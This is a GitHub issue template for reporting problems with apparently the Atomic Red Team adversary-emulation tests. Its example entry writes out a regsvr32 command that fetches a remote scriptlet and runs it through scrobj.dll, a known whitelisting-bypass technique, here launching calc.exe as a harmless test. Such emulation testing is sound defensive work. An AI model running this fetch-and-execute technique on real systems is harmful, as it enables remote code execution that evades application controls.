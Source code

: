 ```yaml
---
name: Problem
about: Tell us about a problem you've encountered.
title: ''
labels: 'problem'
assignees: ''

---
```

## What did you do?

ℹ Please replace this with what you did.
e.g. Run `regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll`

## What did you expect to happen?

ℹ Please replace this with what you expected to happen.
e.g. The atomic test executes and `calc.exe` is launched.

## What happened instead?

ℹ Please replace this with of what happened instead.
e.g. 💥

## Your Environment

* Which *specific* operating system are you running (e.g. Windows 7 SP1 32-bit)?
* Did you run the test from an elevated or root prompt?
* If relevant, which atomic test is this specific to?
* If relevant, which [execution harness](2) are you attempting to use?

[1]: https://github.com/redcanaryco/atomic-red-team/tree/master/atomics "atomic tests"
[2]: https://github.com/redcanaryco/atomic-red-team/tree/master/execution-frameworks "execution frameworks"
